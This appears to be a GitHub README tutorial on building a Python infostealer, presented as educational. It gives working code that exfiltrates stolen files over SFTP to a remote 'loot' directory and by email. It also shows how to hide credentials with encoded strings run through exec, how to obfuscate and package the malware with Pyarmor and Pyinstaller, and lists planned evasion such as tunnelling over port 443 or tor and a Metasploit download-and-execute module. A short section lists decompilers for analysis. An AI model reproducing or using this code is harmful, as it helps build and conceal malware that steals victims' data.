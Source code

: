 # Python Malware Analysis
A guide on the build process, obfuscation techniques, and analysis of simple python-based infostealer malware.<p>
<b>** Disclaimer ** This tutorial is intended for educational purposes only. It is purely to demonstrate the ease of creation and a few capabilities of infostealer malware at a rudimenary level. I do not condone the malicious use of this material.</b>


<br>

## Prerequisites
- Windows 10
- Python 3.1X
> pip install -U -R requirements.txt

<br>

## Exfiltration Methods

### SFTP exfiltration using [Paramiko](https://www.paramiko.org/installing.html)
The example script shown only uses SFTP via the paramiko library to exfiltrate stolen data (for now at least). Below is a snippet of its usage:

    def sftp_func(filepath):
        success = False
        while success == False:   # this will ensure continuous ssh calls  until the data is sent
            try:
                client = paramiko.SSHClient()
                client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                client.connect({RHOST ip}, {RHOST listening port}, {RHOST ssh username}, {RHOST ssh password}, timeout=3)
                sftp = client.open_sftp()
        
                destination_path = f'/home/{a}/loot/{os.path.basename(filepath)}'
                sftp.put(filepath, destination_path)
                success = True
                
            except paramiko.ssh_exception.NoValidConnectionsError:
                pass
            except OSError:
                pass

<br>

### SMTP

(finish later)

    def smtp_func(filepath):

        inbox_name = 'emailname@domain.com'
        inbox_pword = 'password'

        msg = EmailMessage()
        msg['Subject'] = f"{os.path.basename(filepath)}"
        msg['From'] = inbox_name
        msg['To'] = inbox_name

        # attachment not text
        msg.set_content(attachment)

        try:
            with smtplib.SMTP("smtp.domain.com", 587) as s:
                s.starttls()
                s.login(inbox_name, inbox_pword)
                s.send_message(msg)
        except:
            pass

<br>

### Other Ideas 
#### [PyExfil](https://github.com/ytisf/PyExfil)
#### [Cloakify](https://github.com/TryCatchHCF/Cloakify)

<br>

## Code Obfuscation Techniques
### Encoding variables
In this example script, the arguments passed to the 'client.connect()' function (where client = paramiko.SSHClient()) are not human-readable, but instead obfuscated using layers of encoding. Below is an example of what this looks like:

    # before encoding
    b = "<remote ssh password>"
    a = "<remote ssh username>"
    c = "<server ip>"

    # after encoding
    yoyo = "\u0036\u0032\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0032\u0036\u0035\u0036\u0064\u0036\u0066\u0037\u0034\u0036\u0035\u0032\u0030\u0037\u0033\u0037\u0033\u0036\u0038\u0032\u0030\u0037\u0030\u0036\u0031\u0037\u0033\u0037\u0033\u0037\u0037\u0036\u0066\u0037\u0032\u0036\u0034\u0033\u0065\u0032\u0032\u0030\u0061\u0036\u0031\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0032\u0036\u0035\u0036\u0064\u0036\u0066\u0037\u0034\u0036\u0035\u0032\u0030\u0037\u0033\u0037\u0033\u0036\u0038\u0032\u0030\u0037\u0035\u0037\u0033\u0036\u0035\u0037\u0032\u0036\u0065\u0036\u0031\u0036\u0064\u0036\u0035\u0033\u0065\u0032\u0032\u0030\u0061\u0036\u0033\u0032\u0030\u0033\u0064\u0032\u0030\u0032\u0032\u0033\u0063\u0037\u0033\u0036\u0035\u0037\u0032\u0037\u0036\u0036\u0035\u0037\u0032\u0032\u0030\u0036\u0039\u0037\u0030\u0033\u0065\u0032\u0032"

    ...
    # usage in SFTP call
    exec(bytes.fromhex(yoyo), globals())   # converts the hexidecimal string to meaningful variables, python understands escape unicode chars (e.g. \u0036)
    client.connect(c, 22, a, b, timeout=4)
    ...

Pasting the original text into [Cyberchef](https://gchq.github.io/CyberChef/) and applying the following operations yields the legible string 'yoyo': 
- To Hex, No delimiter
- Escape Unicode Chars, Padding: 4, Encode all chars

However, it should be noted that this is a very crude technique as encoded characters are immediately recognizable to skilled forensic analysts and can be easily undone with several decoding tools. That said, when used in tandem with other obfuscation techniques, encoding can slightly delay reverse engineering efforts.

<br>

### Using [Pyarmor](https://pypi.org/project/pyarmor/)
To apply basic code obfuscation:
> pyarmor gen example.py

<br>

## Using [Pyinstaller](https://pyinstaller.org/en/stable/usage.html)
### Initial building:
> cd dist
> pyinstaller example.py

<br>

### Editing the .spec file
...


<br>

## Malware Analysis

**[PyInstaller Extractor](https://github.com/extremecoders-re/pyinstxtractor)** - A Python script to extract the contents of a PyInstaller generated Windows executable file. The contents of the pyz file (usually pyc files) present inside the executable are also extracted and automatically fixed so that a Python bytecode decompiler will recognize it.

**[uncompyle6](https://github.com/rocky/python-uncompyle6/)** - A cross-version Python bytecode decompiler. Translates Python bytecode back into equivalent Python source code.

<br>

## To-do List
- change ssh port to 443 or 53
- Metasploit download+exec module
- .py to .pdf
- smtp exfiltration
- ssh key integration
- encrypted ssh password from http server
- ssh over tor socket
